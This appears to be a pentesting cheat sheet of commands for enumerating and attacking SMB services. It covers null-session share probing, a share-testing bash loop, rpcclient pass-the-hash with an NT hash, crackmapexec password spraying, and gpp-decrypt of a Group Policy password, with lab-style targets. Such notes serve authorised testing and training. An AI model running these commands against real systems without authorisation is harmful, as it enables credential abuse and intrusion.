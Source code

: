 
nmap scan 

```bash
nmap --script "safe or smb-enum-*" -p 445
```

enum4linux 

```bash
enum4linux -a <ip>
```

RPClient 

```bash
rpcclient -U "" -N
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U nagoya-industries/svc_helpdesk 192.168.167.21
```

Smbclient 

```bash
smbclient -L //<ip>              # null authentication 
smbclient --no-pass -L //<IP> # Null user
smbclient -U 'username[%passwd]' -L [--pw-nt-hash]

smbclient -U null -N \\\\192.168.159.248\\transfer
smbclient -U "" -N \\\\10.10.10.100\\Replication

smbclient -U '%' -N \\\\<IP>\\<SHARE> # null session to connect to a windows share
smbclient -U '<USER>' \\\\<IP>\\<SHARE> # authenticated session to connect to a windows share (you will be prompted for a password)

## group.xml 
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

If you don’t know about share 

```bash
#/bin/bash

ip='<TARGET-IP-HERE>'
shares=('C$' 'D$' 'ADMIN$' 'IPC$' 'PRINT$' 'FAX$' 'SYSVOL' 'NETLOGON')

for share in ${shares[*]}; do
    output=$(smbclient -U '%' -N \\\\$ip\\$share -c '') 

    if [[ -z $output ]]; then 
        echo "[+] creating a null session is possible for $share" # no output if command goes through, thus assuming that a session was created
    else
        echo $output # echo error message (e.g. NT_STATUS_ACCESS_DENIED or NT_STATUS_BAD_NETWORK_NAME)
    fi
done
```

Crackmapexec can be used 

```bash
kali@kali:~/beyond$ crackmapexec smb 192.168.50.242 -u usernames.txt -p passwords.txt --continue-on-success
```

## Post exploitiaon:

Check for any shares are open

Retrieves the SMB shares on the locale computer.
```bash
Get-SmbShare
Get-WmiObject -Class Win32_Share
```
Retrieves the SMB shares on a remote computer.
```bash
get-smbshare -CimSession "<computer name or session object>"
```
Retrieves the connections established from the local SMB client to the SMB servers.
```bash
Get-SmbConnection
```
